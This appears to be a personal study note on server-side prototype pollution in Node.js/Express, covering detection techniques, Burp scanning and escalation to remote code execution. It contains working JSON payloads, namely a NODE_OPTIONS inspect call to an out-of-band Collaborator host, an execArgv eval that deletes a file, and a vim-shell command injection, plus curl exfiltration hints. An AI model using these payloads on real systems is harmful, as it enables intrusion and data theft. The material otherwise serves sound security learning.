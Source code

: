 Research:
https://portswigger.net/research/server-side-prototype-pollution

# Detecting SSPP via polluted property reflection
```js
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}
```

Check `POST` or `PUT` requests if they return polluted objects:
```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```
response if website is vulnerable:
```http
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

# Detecting SSPP without polluted property reflection
### Status code override
Node's `http-errors` module contains the following function for generating this kind of error response:
```js
function createError () {
    //...
    if (type === 'object' && arg instanceof Error) {
        err = arg
        status = err.status || err.statusCode || status
    } else if (type === 'number' && i === 0) {
    //...
    if (typeof status !== 'number' ||
    (!statuses.message[status] && (status < 400 || status >= 600))) {
        status = 500
    }
    //...
```
If the website's developers haven't explicitly set a `status` property for the error, you can potentially use this to probe for prototype pollution as follows:
1. Find a way to trigger an error response and take note of the default status code.
2. Try polluting the prototype with your own `status` property. Be sure to use an obscure status code that is unlikely to be issued for any other reason.
3. Trigger the error response again and check whether you've successfully overridden the status code.
### JSON spaces override
#express framework provides a `json spaces` options, which enables you to configure the number of spaces used to indent any JSON data in the response. In many cases, developers leave this property undefined.
It was fixed in Express 4.17.4

### Charset override
Part of the `body-parser` express middleware:
```js
var charset = getCharset(req) or 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase()
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
```
If you can find an object whose properties are visible in a response, you can use this to probe for sources. In the following example, we'll use UTF-7 encoding and a JSON source.
1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. For example, `foo` in UTF-7 is `+AGYAbwBv-`.
    `{ "sessionId":"0123456789", "username":"wiener", "role":"+AGYAbwBv-" }`
2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
4. Repeat the first request. If pollution works, the UTF-7 string should now be decoded
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```
Due to a bug in Node's `_http_incoming` module, this works even when the request's actual `Content-Type` header includes its own `charset` attribute.

# Scanning for SSPP sources
#burp scanner extension
1. Explore the site to collect as much content as possible
2. Proxy -> HTTP history
3. Filter the scope
4. Select all -> RMB -> Extensions -> Server-Side Prototype Pollution Scanner -> choose attack
5. Check Output tab or All issues
https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8

# Bypassing input filters for SSPP

* Obfuscate the prohibited keywords so they're missed during the sanitization [[Client-side PP#Bypassing flawed key sanitization]]
* Access the prototype via the constructor property [[Client-side PP#Prototype pollution via the constructor]]

# [[RCE]] via SSPP
### Identifying a vulnerable request
Potential sink `child_process`
`NODE_OPTIONS` env variable enables you to define a string of CLI arguments that should be used by default whenever you start a new Node process. This property is also a property on the `env` object, you can potentially control this via prototype pollution.
Some of node's functions for creating new child processes accept an optional `shell` property, which enables to set a specific shell such as `bash`.
Example:
```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```
### RCE via `child_process.fork()`
`child_process.fork()`
Method `fork()` accepts and options object in which one of the potential options is the `execArgv` property. Of particular interest is `--eval`, which enables you to pass in arbitrary JavaScript that will be executed by the child process.
```json
"execArgv": [
    "--eval=require('child_process').execSync('rm /flag.txt')"
]
```

### RCE via `child_process.execSync()`
```json
{
	"shell": "vim",
	"input":":! <command>\n"
}
```
If some tool doesn't accept `stdin` by default, we can use `xargs` which converts `stdin` to a list of arguments that can be passed to a command.
`curl` accepts `-d @-` argument to send the body of a `POST` request.
